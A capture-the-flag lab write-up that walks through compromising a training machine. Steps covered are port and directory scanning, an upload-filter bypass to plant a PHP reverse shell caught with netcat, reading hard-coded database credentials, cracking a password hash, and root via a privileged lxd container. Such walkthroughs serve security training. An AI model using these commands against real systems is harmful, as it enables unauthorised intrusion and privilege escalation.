

## **Enumeration**
>	- Performing initial SYN scan on all ports.
```
nmap -sS -p- -vv 10.10.217.93
```
>	  
>	- Accessing the website on `10.10.217.93:65000`.
>	- Using `gobuster dir -u http://10.10.217.93:65000/ -w /usr/share/dirb/wordlists/common.txt -x "php"` to search for `.php` files.
## **Gaining Access**
>	- Going to `/uploads.php` to test the upload filters and upload the reverse shell.
>	- Adding `.jpg.php` to the end of the file shows invalid. The web application seems to use client-side filtering.
>	- Use `burpsuite` to drop the `.js` file that implements the client-side filter. 
>	- *NOTE: Make sure to allow burpsuite to catch .js files by going to Proxy > Proxy settings > Request Extension Rules > File Extensions and remove |^.js$ and then in the Response Interception rules section allow "intercept responses based on the following rules".*
>	- Drop the `filter.js` file.
>	- Upload the `php-reverse-shell.jpg.php` to the web application which evades the server-side filtering by the use of the `.jpg` extension before the `.php` one. Make sure to edit the `$ip` and `$port` to the appropriate values.
>	- Use `nc -lvnp 443` to wait for the shell, then go to the path `/grid` and access the uploaded reverse shell.
>	- Stabilize the shell and make it interactive using the following.
```
python3 -c 'import pty;pty.spawn("/bin/bash")'
export TERM=xterm
```
>	- `export TERM=xterm` gives us access to term commands such as `clear`.
>	- Then back-grounding the process using `CTRL+Z` and then to add tab auto-completes and arrow-keys by using `stty raw -echo; fg` which turns off main terminal's echo as well. *NOTE: Use the command "reset" to gain access back on the main terminal to the disabled features*
>	- Search for the flag using `find / -name web.txt`.
## **Enumeration v2**
>	- Use `find /var/www/ -maxdepth 2 -type d -exec ls -ld "{}" \` to recursively search the directories located in `/var/www/` with max-depth 2.
>	- The `/var/www/TheGrid/includes/dbauth.php` contains hard-coded credentials.
>	- Accessing the database by using `mysql -utron -p`.
>	- Using `show databases;` to view all the databases present.
>	- Using `use tron;` and `show tables;` afterwards.
>	- Using `SELECT * FROM users;` to view the credentials.
>	- *NOTE: IP changed*
>	- Using `https://crackstation.net` to crack the found hash.
>	- Using `su flynn` and the cracked password `@computer@` to access the user.
>	- Second flag can be found in `home/flynn/user.txt`.
>	- Get `flynn`'s groups by using `id`.
## **Privilege Escalation**
>	- The found group `lxd` can be abused to escalate privileges.
>	- First check that there is already an `lxc` image using `lxc image list`, if nothing comes back, then we need to transfer the alpine image to the target.
>		- On the attacking machine:
>			- Download build-alpine through this [git repository](https://github.com/lxd-images/alpine-3-7-apache-php5-6).
>			- Transfer the `.tar` file to the target.
>		- On the target machine:
>			- Download the alpine image.
>			- import image for lxd.
>			- Initialize the image inside a new container.
>			- Mount the container inside `/root` directory.
>	- In our case there is already an alpine image on the target.
>	- Use `lxc init Alpine container -c security.privileged=true` to initialize a container named `container`.
>	- Use `lxc config device add container devicename disk source=/ path=/mnt/root recursive=true` to mount the image.
>	- Use `lxc start container`.
>	- Use `lxc exec container /bin/sh` to open a shell.
>	- Check the user groups and that we escalated privileges correctly using `id` and `cd /mnt/root/root`.
>	- The final flag is found in `./root.txt`.